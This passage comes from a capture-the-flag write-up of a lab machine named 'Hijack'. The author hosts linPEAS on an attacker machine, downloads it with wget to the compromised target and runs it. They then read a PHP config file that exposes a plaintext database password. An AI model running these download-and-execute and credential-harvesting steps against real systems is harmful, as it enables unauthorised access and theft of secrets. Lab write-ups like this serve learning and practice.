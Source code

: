 Next I turned to a familiar tool to explore potential avenues for privilege escalation, linPEAS. I already have `linpeas.sh` on my local machine, so I navigated to its directory and started an HTTP server with Python on port 8888:
```bash
$ python3 -m http.server 8888
``` 

Then on the target, I navigated to `/tmp` and used `wget` to download `linpeas.sh`:
```bash
www-data@Hijack:/home/ftpuser$ cd /tmp
cd /tmp
www-data@Hijack:/tmp$ wget http://<ATTACKER IP>:8888/linpeas.sh
wget http://<ATTACKER IP>:8888/linpeas.sh
--2023-12-07 17:03:39--  http://<ATTACKER IP>:8888/linpeas.sh
Connecting to <ATTACKER IP>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 847815 (828K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 827.94K   803KB/s    in 1.0s    

2023-12-07 17:03:40 (803 KB/s) - 'linpeas.sh' saved [847815/847815]
```
Next, I made `linpeas.sh` executable, and ran it:
```bash 
www-data@Hijack:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@Hijack:/tmp$ ./linpeas.sh
```

### Unsecured Credentials: Credentials In Files(T1552.001)
After the script finished, I found the following interesting results:
```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/config.php:$password = "N3v3rG0nn4G1v3Y0uUp";  
```

I used `cat` to read the contents of this file:
```bash
www-data@Hijack:/tmp$ cat /var/www/html/config.php
cat /var/www/html/config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "N3v3rG0nn4G1v3Y0uUp";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```
Once again, unsecured credentials have been found in a file.
